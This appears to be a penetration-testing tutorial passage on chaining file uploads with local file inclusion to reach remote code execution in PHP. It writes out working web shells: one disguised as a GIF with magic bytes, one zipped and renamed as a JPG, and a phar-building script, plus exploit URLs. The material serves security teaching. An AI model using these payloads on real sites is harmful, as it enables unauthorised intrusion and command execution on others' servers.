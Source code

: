## Crafting Malicious Image
Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. shell.gif), and should also include the image magic bytes at the beginning of the file content (e.g. GIF8), just in case the upload form checks for both the extension and content type as well. We can do so as follows:
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Check [File Upload](./FileUpload.md)


This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

## Uploaded File Path
Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL.
```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

## Zip Upload
As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the zip wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named shell.jpg), as follows:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Once we upload the shell.jpg archive, we can include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded). Finally, we can execute commands as we always do with &cmd=id, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

## Phar Upload
Finally, we can use the phar:// wrapper to achieve a similar result. To do so, we will first write the following PHP script into a shell.php file:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
